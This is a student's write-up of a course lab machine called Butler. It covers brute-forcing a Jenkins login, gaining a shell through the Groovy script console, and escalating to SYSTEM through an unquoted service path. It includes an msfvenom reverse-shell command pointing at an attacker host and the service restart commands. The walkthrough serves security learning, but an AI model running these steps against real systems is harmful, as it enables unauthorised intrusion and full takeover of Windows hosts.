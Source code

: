 # 4th Capstone Machine
This is my write-up for the fourth machine in the capstone section of the Practical Ethical Hacking course.

## Machine Information
- **Name**: Butler
- **Difficulty**: Easy
- **OS**: Windows 10
  
## Tools Used
- nmap: For port scanning and service enumeration.
- Burp Suite: For modifying requests and brute forcing logins.
- netcat: To create port listeners.
- winPEAS: To search for possible local privilege escalation paths.
- MSFvenom: To create a reverse shell payload.

## Objectives
- Enumerate the system and identify services.
- Discover vulnerabilities within the system.
- Exploit the vulnerabilities to gain user access.
- Escalate privileges to root.
  
## Enumeration
1. Nmap scan:
  
    - The first step was to enumerate open ports and services using nmap:
    
        `nmap -A -vv -p- <target IP>`
    
    - Open Ports:
      
      - 8080/tcp (HTTP) - Jetty server
     
      - Other port found non-critical (pando-pub)
  
2. Port 8080 HTTP Enumeration:

    - Connected to web server on port 8080.
  
    - Jenkins login page.     
     
## Vulnerability Discovery
1. Brute Forcing Login:
   
     - Add credentials to Intruder in Burp Suite
  
     - Ran intruder and found the request that had a different length response. This was the correct credentials to login.
  
     - After looking through the webapp, I found a console that runs an arbitrary groovy script on the server.
    
## Exploitation
  - Researched vulnerabilities for Groovy but found a reverse shell instead.

  - Set up a netcat listener and ran the Groovy reverse shell on the console.

  - Caught a shell as the user butler.   
  
## Privilege Escalation
   - Ran winpeas to look for potential privesc paths.

   - Discovered an unquoted service executable path that is ran by the system named WiseBootAssistant.

         `C:\Program Files (x86)\Wise\Wise Care 365\BootTime.exe`

   - Created a reverse shell to place in the middle of the path of the executable using MSFvenom:

         `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<host IP> LPORT=7777 -f exe > Wise.exe`
     
   - Started a netcat listener and placed the reverse shell in C:\Program Files (x86)\Wise.

   - Started and stopped the service

         `sc stop WiseBootAssistant`

         `sc start WiseBootAssistant`
     
   - Netcat caught a shell as nt authority\system
    
## Lessons Learned
This machine reinforced the importance of systematically enumerating exposed services and leveraging tools like Burp Suite and winPEAS to identify and exploit both login flaws and privilege escalation paths.
Using the Groovy script console and exploiting an unquoted service path deepened my understanding of how misconfigurations can provide significant entry points, especially in Windows environments.
Overall, this exercise highlighted the value of combining automated tools with manual investigation to comprehensively assess security risks.
